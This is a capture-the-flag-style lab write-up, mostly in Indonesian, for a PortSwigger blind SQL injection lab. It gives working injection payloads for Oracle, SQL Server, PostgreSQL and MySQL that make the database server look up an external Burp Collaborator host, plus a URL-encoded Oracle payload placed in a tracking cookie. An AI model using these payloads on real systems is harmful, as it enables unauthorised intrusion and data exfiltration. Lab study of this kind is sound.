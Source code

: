 
# Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Learning path: If you're following our learning path, please note that the suggested solution for this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet




---------------------------------------------
# **Simple Proof of Concept: Blind SQL Injection with Out-of-Band Interaction**

## **Langkah Mudah Eksploitasi**

### **1. Penjelasan Singkat**
Blind SQL injection ini memanfaatkan interaksi out-of-band (OOB) melalui DNS untuk membuktikan kerentanan. Payload akan menyebabkan aplikasi melakukan DNS lookup ke domain Burp Collaborator.

---

### **2. Payload untuk Database Umum**
Berikut adalah payload sederhana untuk setiap jenis database:

#### **Oracle**
```sql
'+UNION SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [<!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--
```

#### **Microsoft SQL Server**
```sql
'+AND exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'--
```

#### **PostgreSQL**
```sql
'+|| (COPY (SELECT '') TO PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN')--
```

#### **MySQL**
```sql
'+AND LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')--
```

---

# **Penjelasan dan Langkah-Langkah Eksploitasi Blind SQL Injection dengan Out-of-Band Interaction**

### **Penjelasan Singkat**
Blind SQL Injection dengan metode Out-of-Band (OOB) memanfaatkan interaksi eksternal, seperti DNS lookup, untuk memvalidasi bahwa injeksi berhasil dilakukan. Pada lab ini, injeksi SQL dibuat untuk memaksa server melakukan lookup ke domain Burp Collaborator, membuktikan bahwa payload telah dieksekusi.

---

### **Payload Detail**
Payload berikut digunakan pada database Oracle:

```sql
'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://tqn6voesrxt08naj53o2tp0ztqzhn7bw.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

#### **Penjelasan Detail Query:**
1. **`UNION SELECT`**:
   - Menggabungkan hasil query asli dengan query injeksi.
   - Digunakan untuk menambahkan perintah injeksi tanpa merusak query asli.

2. **`EXTRACTVALUE(xmltype(...), '/l')`**:
   - **`EXTRACTVALUE`**: Fungsi Oracle yang mengekstrak nilai dari dokumen XML berdasarkan jalur XPath.
   - **`xmltype(...)`**: Membuat dokumen XML dari string yang diberikan.

3. **Payload XML**:
   - **`<!DOCTYPE root [<!ENTITY % remote SYSTEM "http://tqn6voesrxt08naj53o2tp0ztqzhn7bw.oastify.com/"> %remote;]>`**:
     - Membuat entitas eksternal (`%remote`) yang mengacu ke URL (Burp Collaborator).
     - Saat XML diproses, server mencoba mengakses URL tersebut, menghasilkan DNS lookup ke domain Burp Collaborator.

4. **`FROM dual`**:
   - **`dual`** adalah tabel dummy bawaan Oracle untuk menjalankan query sederhana.

5. **Encoded Characters**:
   - **`%3f`, `%3b`, dan `%25`**:
     - Encoding untuk karakter `?`, `;`, dan `%`.
     - Encoding ini memastikan payload dapat dikirim melalui URL tanpa diubah.

6. **`--`**:
   - Komentar SQL untuk mengabaikan sisa query asli, memastikan hanya payload yang dieksekusi.

---

### **Langkah-Langkah Eksploitasi**
1. **Siapkan Burp Collaborator**:
   - Buka **Burp Collaborator** di Burp Suite.
   - Salin subdomain unik, misalnya: `tqn6voesrxt08naj53o2tp0ztqzhn7bw.oastify.com`.

2. **Masukkan Payload**:
   - Tempelkan payload di parameter **TrackingId** menggunakan subdomain Burp Collaborator Anda.
   - Contoh:
     ```plaintext
     TrackingId=ABC123'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://tqn6voesrxt08naj53o2tp0ztqzhn7bw.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
     ```

3. **Monitor DNS Lookup**:
   - Buka **Burp Collaborator** dan cek log untuk memastikan server melakukan DNS lookup ke domain Anda.

---

### **Hasil Eksploitasi**
Jika server rentan, Anda akan melihat log di Burp Collaborator dengan detail lookup dari server ke subdomain yang Anda gunakan. Hal ini membuktikan bahwa payload berhasil dieksekusi, dan server melakukan komunikasi ke domain eksternal seperti yang diinstruksikan. 

Payload ini sangat efektif untuk membuktikan kerentanan pada skenario Blind SQL Injection dengan Out-of-Band Interaction.




![img](images/Blind%20SQL%20injection%20with%20out-of-band%20interaction/1.png)




![img](images/Blind%20SQL%20injection%20with%20out-of-band%20interaction/2.png)
